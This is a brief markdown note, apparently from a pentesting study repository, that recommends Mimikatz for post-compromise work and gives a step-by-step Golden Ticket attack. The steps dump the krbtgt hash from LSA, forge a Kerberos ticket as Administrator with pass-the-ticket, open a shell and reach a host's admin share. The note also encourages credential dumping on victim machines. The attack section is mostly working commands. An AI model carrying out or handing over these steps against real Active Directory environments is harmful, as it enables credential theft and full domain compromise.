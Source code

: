 
Mimikatz is a very nice tool
but easy to be caught by windows

most of all the attacks in post compromise section can be performed using mimikatz

clone the repo or compile the binary in internal victim machine and roll

https://github.com/gentilkiwi/mimikatz

read the wiki page for more information.

there is also an alternative for this mimikatz, known as invoke-mimikatz, its mimikatz in powershell.


super nice tool.

Try credential dumping attacks and more

go learn more about mimikatz and make it a swiss knife

# Golden Ticket Attacks
```sh

> mimikatz.exe
> privilege::debug
> lsadumb::lsa /inject /name:krbtgt

# Open up a notepad and copy required infor from output,such as sid of domain,ntlm hash of krbtgt account

> kerberos::golden /User:Administrator /domain:marvel.local /sid:<sid hash> /krbtgt:<ntlm hash> /id:500 /ptt

> misc::cmd

# cmd shel will be opened
> dir \\<THEPUNISHER\c$>
# try exploit more with psexec. learn about it more 
# exploit more
```